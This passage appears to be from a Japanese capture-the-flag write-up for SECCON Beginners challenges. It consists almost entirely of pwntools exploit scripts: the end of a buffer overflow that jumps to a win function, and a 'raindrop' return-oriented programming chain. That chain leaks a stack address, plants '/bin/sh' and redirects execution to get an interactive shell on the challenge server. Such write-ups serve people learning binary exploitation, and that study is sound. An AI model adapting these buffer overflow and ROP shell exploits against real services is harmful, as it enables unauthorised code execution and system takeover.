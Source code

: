 ```python

def exploit():
	bufsize = 0x28
	conn.recvline()
	conn.sendline("255")	
	conn.recvline()
	payload = b''
	payload += p64(addr_win+1)*8
	conn.sendline(payload)
	conn.interactive()	

if __name__ == "__main__":
	exploit()
```


### raindrop
単純なROP

```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
HOST = "raindrop.quals.beginners.seccon.jp"
PORT = 9001

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]
addr_bss = elf.bss()
plt_system = elf.plt["system"]
rdi_ret = 0x401453
rsi_r15_ret = 0x401451

def exploit():
	conn.recvuntil("2 | ")
	addr_stack = int(conn.recvuntil(" ")[:-1],16)
	payload = b'/bin/sh\x00'*3
	payload += p64(rdi_ret)
	payload += p64(addr_stack-0x20)
	#payload += p64(plt_system)
	payload += p64(0x4011e5)

	conn.sendlineafter("understand?\n", payload)	

	conn.interactive()	

if __name__ == "__main__":
	exploit()
```
